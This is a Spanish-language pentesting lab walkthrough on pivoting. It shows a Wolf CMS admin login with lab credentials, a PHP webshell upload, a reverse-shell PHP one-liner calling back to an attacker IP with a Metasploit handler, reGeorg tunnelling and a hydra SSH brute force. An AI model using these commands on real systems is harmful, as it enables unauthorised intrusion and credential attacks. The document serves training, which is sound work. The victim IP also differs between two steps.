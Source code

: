 
Vamos a ver el funcionamiento con un ejemplo:

host víctima: 192.143.107.3

El primer paso a realizar sera un escaner del host:

![[Pasted image 20250312092036.png]]

Parece que el servicio web del puerto 80 está siendo ejecutado con una tecnología llamada wolf cms. Si hacemos una búsqueda de exploits con ese nombre encontramos varios.

![[Pasted image 20250312092205.png]]

Tras realizar una búsqueda web se nos confirma que suele haber un panel de admin poniendo en la url "/?/admin/login".

![[Pasted image 20250312092341.png]]

Sabemos las credenciales pues es un lab de pivoting, así que nos las dan de serie:

User: robert
Pass: password1

Como hay un botón de subida de archivos, vamos a intentar subir una webshell ubicada en ``/usr/share/webshells/php/php-backdoor.php``.

![[Pasted image 20250312092916.png]]

Parece que está funcionando. Para conseguir una reverse shell vamos a utilizar metasploit

```bash
msfconsole -q
use exploit/multi/handler
set payload php/reverse_php
set LHOST IP
exploit
```

En la web shell vamos a ejecutar el comando.

```
php -r '$sock=fsockopen("ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Con esto se nos debería activar una sesión en meterpreter y ya tendremos la reverse shell.

Si vemos el ``ipconfig`` de la reverse shell vemos que tiene una red interesante.

![[Pasted image 20250312093330.png]]

Desde la carpeta escritorio, en herramientas podemos ver la herramienta de reGeorg

![[Pasted image 20250312093421.png]]


La idea ahora es subir el tunnel al servidor víctima, para ello podemos utilizar el botón de upload de la propia web que tiene.


![[Pasted image 20250312093541.png]]

Una vez subido, creamos una nueva tab y ejecutamos.

```bash
cd Desktop/tools/reGeorg
python reGeorgSocksProxy.py -p 9050 -u http://182.143.107.3/public/tunnel.php
```

![[Pasted image 20250312093712.png]]

Desde ahora podemos abrir una nueva tab y realizar pruebas de conectividad al host2

```bash
proxychains nmap -sT -Pn host2
```


![[Pasted image 20250312093905.png]]

Como vemos que tiene ssh vamos a intentar hacer un ataque de fuerza bruta.

```bash
proxychains hydra -t 4 -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-40.txt ssh://ip
```

![[Pasted image 20250312094127.png]]

